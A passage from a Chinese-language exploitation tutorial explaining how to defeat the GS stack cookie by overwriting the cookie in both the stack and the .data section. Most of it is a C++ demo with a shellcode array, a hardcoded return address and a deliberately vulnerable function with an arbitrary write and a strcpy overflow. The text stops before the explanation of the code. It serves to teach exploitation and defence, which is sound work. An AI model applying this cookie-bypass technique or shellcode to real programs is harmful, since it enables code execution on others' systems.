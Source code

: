 - （1）猜测 Cookie 的值； 
- （2）同时替换栈中和.data 中的 Cookie。

Cookie 的生成具有很强的随机性，因此准确猜测出 4 字节的 Cookie 值的可能性极低。这样的话我们只能通过同时替换栈中和.data 中的 Cookie 来保证溢出后 Cookie 值的一致性。 我们将通过以下代码演示如何同时替换栈中和.data 中的 Cookie，绕过 Security Cookie 的 校验。 

```c++
#include <stdio.h>
#include <string.h> 
#include<stdlib.h> 

char Shellcode[]= "\x90\x90\x90\x90"//new value of cookie in .data
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" 
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" 
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" 
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" 
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" 
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" 
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" 
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8" 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xF4\x6F\x82\x90"//"\x38\x6E\x82\x90"//result of \x90\x90\x90\x90 xor ESP
	"\x90\x90\x90\x90"
	"\x94\xFE\x12\x00"//address of Shellcode 
	;
	

void test(char * s, int i, char * src)
{    
	char dest[200];    
	if(i<0x9995)    
	{       
		char * buf=s+i;       
		*buf=*src;       
		*(buf+1)=*(src+1); 
		*(buf+2)=*(src+2);      
		*(buf+3)=*(src+3);      
		strcpy(dest,src);    
	} 
} 

void main() 
{    
	char * str=(char *)malloc(0x10000);   
	test(str,0xFFFF2FB8,Shellcode);  
}
```

对代码简要解释如下:
